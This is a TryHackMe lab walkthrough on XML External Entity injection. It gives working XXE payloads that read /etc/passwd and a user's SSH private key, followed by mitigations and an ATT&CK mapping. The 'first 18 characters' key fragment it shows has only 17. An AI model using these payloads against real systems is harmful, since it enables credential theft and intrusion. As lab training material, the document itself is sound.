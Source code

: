 # 🧩 XML External Entity (XXE) – TryHackMe Walkthrough

## 📝 Overview

This challenge demonstrates how **improperly configured XML parsers** can allow attackers to inject malicious XML entities, enabling them to read sensitive files from the server. XXE attacks can lead to information disclosure, SSRF, and even remote code execution in some cases.

---

## 🎯 Lab Objective

* Validate the XXE vulnerability by injecting a custom payload.
* Read the `/etc/passwd` file to enumerate users.
* Locate and extract the SSH private key of a specific user.

---

## 🛠 Steps to Exploit

### ✅ 1. Confirming XXE with Custom Payload

* Injected the following payload to confirm XXE:

  ```xml
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe "falcon feast">
  ]>
  <foo>&xxe;</foo>
  ```

* **Result:** The application displayed `falcon feast`, confirming the XXE vulnerability.

---

### ✅ 2. Reading `/etc/passwd`

* Modified the payload to read system files:

  ```xml
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <foo>&xxe;</foo>
  ```

* **Result:** Retrieved system user details. The relevant user entry was:

  ```
  falcon:x:1000:1000:falcon:/home/falcon:/bin/bash
  ```

---

### ✅ 3. Locating the SSH Private Key

* Based on Linux conventions, SSH keys are typically stored in the `.ssh` directory of a user’s home folder.

* **Key Location:**

  ```
  /home/falcon/.ssh/id_rsa
  ```

---

### ✅ 4. Extracting the SSH Private Key

* Used XXE to read the private SSH key:

  ```xml
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/falcon/.ssh/id_rsa">
  ]>
  <foo>&xxe;</foo>
  ```

* **Result:** Retrieved the private key. The first 18 characters were:

  ```
  MIIEogIBAAKCAQEA7
  ```

---

## ✅ Key Takeaways

* **Root Cause:** XML parser was configured to allow external entity resolution.
* **Impact:** Sensitive file disclosure, potential lateral movement using SSH access.
* **Mitigation:**

  * Disable **DTD (Document Type Definition)** processing in XML parsers.
  * Use secure parsers that block external entities by default.
  * Validate and sanitize all XML inputs.

---

## 🗺 MITRE ATT\&CK Mapping

| **Technique**                         | **ID**                                                      | **Description**                                                                |
| ------------------------------------- | ----------------------------------------------------------- | ------------------------------------------------------------------------------ |
| **Exfiltration Over Web Service**     | [T1567.002](https://attack.mitre.org/techniques/T1567/002/) | Adversaries exfiltrate sensitive files by exploiting exposed web services.     |
| **Exploit Public-Facing Application** | [T1190](https://attack.mitre.org/techniques/T1190/)         | Adversaries exploit vulnerable applications to gain unauthorized access/files. |
